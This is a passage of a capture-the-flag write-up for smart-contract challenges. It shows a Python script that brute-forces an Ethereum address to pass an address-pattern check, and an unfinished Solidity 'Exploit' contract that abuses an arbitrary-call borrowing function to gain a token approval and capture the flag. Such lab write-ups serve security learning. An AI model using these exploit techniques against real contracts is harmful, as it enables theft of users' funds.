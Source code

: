 ```solidity
    function is_my_family(address account) internal returns (bool) {
        bytes20 you = bytes20(account);

        bytes20 code = maskcode;
        bytes20 feature = appearance;

        for (uint256 i = 0; i < 34; i++) {
            if (you & code == feature) {
                return true;
            }

            code <<= 4;
            feature <<= 4;
        }
        return false;
    }
```

For this function to return `true`, part of the address of `msg.sender` must contain `5a54`. Such an address and its corresponding private key can be generated by brute force using a tool such as profanity2, but a Python script using web3.py is also fast enough for this challenge to compute them as follows.

```py
from web3.auto import w3

while True:
    account = w3.eth.account.create()
    private_key = account.key
    address = account.address

    if "5a54" in address:
        print("Private Key: ", private_key.hex())
        print("Address: ", address)
        break
```

All that remains is to just run `share_my_valut` and `setflag` using the account.

Flag: `0x58c71576485889cc367b4cb238ab719c3c2f7f70`

### SimpleCall

[Source](SimpleCall)

>If you want money, call me simply!

Do a reentrancy attack against the `privilegedborrowing` function.

```solidity
contract Exploit {
    IExistingStock stock;

    function exploit(address instanceAddress) public {
        stock = IExistingStock(instanceAddress);
        stock.privilegedborrowing(1000, address(0), address(this), "");
        stock.privilegedborrowing(
            1000,
            address(0),
            address(stock),
            abi.encodePacked(bytes4(keccak256("approve(address,uint256)")), abi.encode(address(this), uint256(200001)))
        ); 
        stock.setflag();
    }

    fallback() external {
```